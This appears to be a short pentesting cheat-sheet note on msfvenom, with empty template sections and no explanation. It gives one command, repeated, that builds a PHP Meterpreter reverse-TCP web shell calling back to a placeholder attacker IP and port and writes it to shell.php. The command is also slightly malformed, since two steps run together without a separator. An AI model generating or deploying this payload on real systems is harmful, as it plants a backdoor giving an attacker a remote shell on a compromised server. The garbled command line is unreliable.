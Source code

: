 ```yaml
---

---
```

## Metadata
up:: [[Toolmap]]

---
## Info
```ad-info
title: =
```
---
## Usage
```bash
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n'> shell.php && pbpaste >> shell.php
```
## Note
### Basic
```bash
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n'> shell.php && pbpaste >> shell.php
```
### ALL Param

